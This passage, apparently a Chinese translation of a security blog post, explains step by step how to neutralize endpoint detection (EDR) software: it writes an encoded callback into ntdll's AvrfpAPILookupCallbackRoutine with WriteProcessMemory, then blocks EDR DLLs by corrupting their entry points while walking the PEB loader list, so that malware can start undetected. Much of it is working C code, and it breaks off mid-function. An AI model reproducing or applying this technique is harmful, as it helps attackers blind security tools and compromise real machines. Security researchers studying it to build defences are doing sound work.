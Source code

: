 现在我们可以编写指针并使用 WriteProcessMemory() 将 AvrfpAPILookupCallbacksEnabled 设置为 1：

```bash
// ntdll pointer are encoded using the system pointer cookie located at SharedUserData!Cookie
    LPVOID callback_ptr = encode_system_ptr(&My_LdrGetProcedureAddressCallback);

    // set ntdll!AvrfpAPILookupCallbacksEnabled to TRUE
    uint8_t bool_true = 1;

    // set ntdll!AvrfpAPILookupCallbackRoutine to our encoded callback address
    if (!WriteProcessMemory(pi.hProcess, (LPVOID)(avrfp_address+8), &callback_ptr, sizeof(ULONG_PTR), NULL)) {
        printf("Write 2 failed, error: %d\n", GetLastError());
    }

    if (!WriteProcessMemory(pi.hProcess, (LPVOID)avrfp_address, &bool_true, 1, NULL)) {
        printf("Write 3 failed, error: %d\n", GetLastError());
    }
```

## 第 3 步：执行回调并中和 EDR

一旦我们在挂起的进程上调用 ResumeThread()，每次调用 LdrpGetProcedureAddress() 时都会执行我们的回调，其中第一个应该是在 LdrpInitializeProcess() 加载 kernelbase.dll 时。

[![](assets/1709531057-f0a79cff642a52c838dc4fcad8f1bbe3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229235150-738d4f1e-d71a-1.png)

注意：当我们触发回调时，kernelbase.dll 没有完全加载，并且触发发生在 LdrLoadDll 内部，因此仍然获取加载程序锁。尚未加载的 Kernelbase 意味着我们只能调用 ntdll 函数，并且加载程序锁会阻止我们启动任何线程或进程，以及加载 DLL。

由于我们能做的事情受到高度限制，因此最简单的操作方案是阻止加载 EDR DLL，然后等到进程完全初始化后再启动恶意软件。

为了确保我测试的 EDR 得到适当的中和，我采取了多管齐下的方法。

### DLL 破坏

在流程生命周期的早期，只应加载 ntdll.dll、kernel32.dll 和 kernelbase.dll。某些 EDR 可能会抢先将其 DLL 映射到内存中，但要等到稍后再调用入口点。虽然我们可以通过调用 ntdll !LdrUnloadDll() 来卸载这些 DLL 一旦加载程序锁被释放（或手动执行），一个快速而肮脏的解决方案就是破坏它们的入口点。

我们要做的是遍历 LDR 模块列表，并替换任何不应该存在的 DLL 的入口点地址。

```bash
DWORD EdrParadise() {
    // we'll replaced the EDR entrypoint with this equally useful function
    // todo: stop malware

    return ERROR_TOO_MANY_SECRETS;
}

void DisablePreloadedEdrModules() {
    PEB* peb = NtCurrentTeb()->ProcessEnvironmentBlock;
    LIST_ENTRY* list_head = &peb->Ldr->InMemoryOrderModuleList;
    LIST_ENTRY* list_entry = list_head->Flink->Flink;

    while (list_entry != list_head) {
```